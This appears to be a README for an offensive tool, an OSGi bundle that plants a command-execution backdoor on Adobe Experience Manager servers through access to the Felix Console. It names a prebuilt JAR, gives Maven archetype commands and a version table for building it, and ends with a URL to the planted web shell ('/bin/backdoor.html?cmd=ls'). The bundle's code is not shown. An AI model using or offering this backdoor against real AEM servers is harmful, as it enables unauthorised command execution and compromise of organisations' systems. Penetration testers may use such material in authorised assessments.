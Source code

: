 # AEM RCE OSGI bundle

OSGI bundle allows to get RCE when you have access to Felix Console. There is pre-build bundle `rce.bundle.core-1.0-SNAPSHOT.jar`, works for AEM 6.2 or newer.

### Build by yourself
For AEM 5.6 use following maven command.

```
mvn org.apache.maven.plugins:maven-archetype-plugin:2.4:generate \
 -DarchetypeGroupId=com.day.jcr.vault \
 -DarchetypeArtifactId=multimodule-content-package-archetype \
 -DarchetypeVersion=1.0.2 \
 -DarchetypeCatalog=https://repo.adobe.com/nexus/content/groups/public/

```

For AEM 6.0 or newer use following maven command.

```
mvn org.apache.maven.plugins:maven-archetype-plugin:2.4:generate \
 -DarchetypeGroupId=com.adobe.granite.archetypes \
 -DarchetypeArtifactId=aem-project-archetype \
 -DarchetypeVersion=SELECT_FROM_TABLE \
 -DarchetypeCatalog=https://repo.adobe.com/nexus/content/groups/public/

```

Select archetype version from the table.

<table>
  <tr>
    <th>Archetype version </th>
    <th>AEM version</th>
  </tr>
  <tr>
    <td>7</td>
    <td>6.0 or newer</td>
  </tr>
  <tr>
    <td>8</td>
    <td>6.0 or newer</td>
  </tr>
  <tr>
    <td>9</td>
    <td>6.0 or newer</td>
  </tr>
  <tr>
    <td>10</td>
    <td>6.0 or newer</td>
  </tr>
  <tr>
    <td>11</td>
    <td>6.2 or newer</td>
  </tr>
  <tr>
    <td>12</td>
    <td>6.3 or newer</td>
  </tr>
  <tr>
    <td>13</td>
    <td>6.4, 6.3 + SP2</td>
  </tr>
  <tr>
    <td>14</td>
    <td>6.4, 6.3 + SP2</td>
  </tr>
</table>

### Access the shell
https://aem.webapp/bin/backdoor.html?cmd=ls
